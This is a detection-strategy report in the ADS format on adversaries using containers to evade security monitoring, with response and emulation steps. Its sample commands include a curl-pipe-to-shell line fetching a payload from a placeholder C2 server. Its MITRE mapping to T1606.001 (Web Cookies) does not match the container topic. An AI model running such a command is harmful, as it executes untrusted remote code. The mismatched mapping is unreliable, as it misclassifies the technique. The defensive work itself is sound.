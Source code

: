 # Alerting & Detection Strategy (ADS) Report

## Goal
Detect adversarial attempts to bypass security monitoring using containers. This technique aims to identify adversaries leveraging containerization to obscure malicious activities and evade traditional detection mechanisms.

## Categorization
- **MITRE ATT&CK Mapping:** T1606.001 - Web Cookies
- **Tactic / Kill Chain Phases:** Credential Access
- **Platforms:** Linux, macOS, Windows, SaaS, IaaS  
  [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1606/001)

## Strategy Abstract
The detection strategy utilizes a combination of network traffic analysis and host-level monitoring to identify suspicious container activity. Key data sources include:
- **Container logs:** Analyzing access patterns and command execution within containers.
- **Network traffic:** Monitoring for unusual outbound connections that may indicate exfiltration attempts or communication with C2 servers.
- **System integrity checks:** Detecting unexpected changes in system files or configurations within the host environment.

Patterns analyzed include:
- Unusual spikes in container creation/deletion activities.
- Abnormal network behavior originating from containers, such as traffic to uncommon ports or destinations.
- Execution of scripts or commands commonly associated with credential harvesting.

## Technical Context
Adversaries may use containers to run malicious code while evading detection by traditional security tools that are not optimized for container environments. Containers provide a lightweight and isolated environment for running applications, which can be exploited to mask the presence of malware.

### Adversary Emulation Details:
- **Sample Commands:**
  - `docker run --rm -it <malicious_image>`
  - `curl -s http://<c2_server>/payload | sh`
- **Test Scenarios:**
  - Deploy a benign container with logging enabled and simulate abnormal network activity to assess detection.
  - Create multiple containers in rapid succession to mimic adversarial behavior.

## Blind Spots and Assumptions
- **Blind Spots:** Detection may not fully cover sophisticated adversaries using advanced obfuscation techniques within containers. 
- **Assumptions:** Assumes the container runtime environment is under monitoring and that logs are properly configured and accessible.
- **Gaps:** Limited visibility into encrypted or highly obfuscated network traffic.

## False Positives
Potential benign activities that might trigger false alerts include:
- Legitimate use of containers for testing or development purposes, leading to high creation/deletion rates.
- Routine updates or maintenance tasks involving containerized applications.
- Network scanning tools running within authorized environments for security assessments.

## Priority
**Severity: Medium**

Justification: While the misuse of containers can significantly impact security posture by enabling adversaries to bypass detection, many organizations have existing measures that can partially mitigate these risks. The medium priority reflects the need to balance between detecting genuine threats and minimizing false positives.

## Validation (Adversary Emulation)
Step-by-step instructions to emulate this technique in a test environment:
1. **Setup Test Environment:**
   - Install Docker or another container runtime on the host system.
   - Configure network monitoring tools to capture traffic from containers.
2. **Deploy Malicious Container:**
   - Pull a benign image and modify it to simulate malicious activity (e.g., add scripts that generate unusual network traffic).
3. **Execute Adversarial Commands:**
   - Run commands within the container that mimic adversarial behavior, such as connecting to an external server.
4. **Monitor Alerts:**
   - Observe detection systems for alerts triggered by the test activities.

## Response
Guidelines for analysts when the alert fires:
1. **Verify Alert:** Confirm the legitimacy of the alert by reviewing container logs and network traffic associated with the flagged activity.
2. **Contain Threat:** Isolate affected containers to prevent further malicious actions. Consider stopping or removing suspicious containers.
3. **Investigate:** Conduct a thorough investigation to determine the scope of the threat, including any potential data exfiltration or system compromise.
4. **Remediate:** Apply necessary security patches or configurations to mitigate vulnerabilities exploited by adversaries.
5. **Document Findings:** Record details of the incident and response actions for future reference and improvement of detection strategies.

## Additional Resources
Additional references and context:
- [Docker Security Best Practices](https://docs.docker.com/engine/security/)
- [MITRE ATT&CK Container Technique Details](https://attack.mitre.org/techniques/T1606/001)

This report provides a comprehensive framework for detecting adversarial use of containers, aiming to enhance organizational security posture through effective monitoring and response strategies.